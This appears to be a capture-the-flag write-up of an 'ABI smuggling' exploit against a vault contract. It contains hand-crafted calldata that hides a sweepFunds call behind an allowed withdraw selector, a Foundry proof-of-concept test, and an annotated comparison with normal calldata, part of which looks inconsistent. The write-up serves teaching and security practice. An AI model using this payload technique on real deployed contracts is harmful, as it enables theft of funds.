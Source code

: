 Final artifact calldata:
```
0x
1cff79cd // selector
0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264 // address
0000000000000000000000000000000000000000000000000000000000000064 // actionData offset: 100
0000000000000000000000000000000000000000000000000000000000000000 // meaningless padding
d9caed12 // withdraw.selector
0000000000000000000000000000000000000000000000000000000000000044 // actionData length
85fb709d // sweepFunds.selector
00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea // address(receiver)
0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b // address(token)
00000000000000000000000000000000000000000000000000000000 // padding to make everything 32-byte aligned (optional)
```

PoC:
```solidity
function test_abiSmuggling() public checkSolvedByPlayer {
    bytes memory actionData = abi.encodeWithSelector(
        SelfAuthorizedVault.sweepFunds.selector,
        recovery,
        address(token)
    );
    console.logBytes(actionData);

    bytes memory callData = abi.encodePacked(
        AuthorizedExecutor.execute.selector, // selector
        bytes32(uint256(uint160((address(vault))))), // address vault
        uint256(100), // offset of actionData
        uint256(0), // meaningless 
        hex"d9caed12", // withdraw.selector
        uint256(68), // legnth of actionData
        actionData,
        new bytes(28) // mimic abi enocde behavior: padding to make everything 32-byte aligned (optional)
    );
    console.logBytes(callData);

    address(vault).call(callData);
}
```

#### Deep Dive
As a player, normally we are only authorized to call `withdraw()`
normal actionData:
```
0x
d9caed12 // withdraw.selector
0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b // token address
00000000000000000000000044e97af4418b7a17aabd8090bea0a471a366305c // recipient address
0000000000000000000000000000000000000000000000000de0b6b3a7640000 // amount: 1e18
```
normal calldata:
- offset indicates the start of the data, including length
- since **`abi.encode` pads each argument into 32 bytes**, and since `bytes` is right padding, it will pad additional 28 zero bytes at the end
```
0x
1cff79cd // execute.selector
0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264 // target address, i.e. vault
0000000000000000000000000000000000000000000000000000000000000040 // actionData offset
0000000000000000000000000000000000000000000000000000000000000064 // actionData length
d9caed12 // withdraw.selector
0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b // token address
```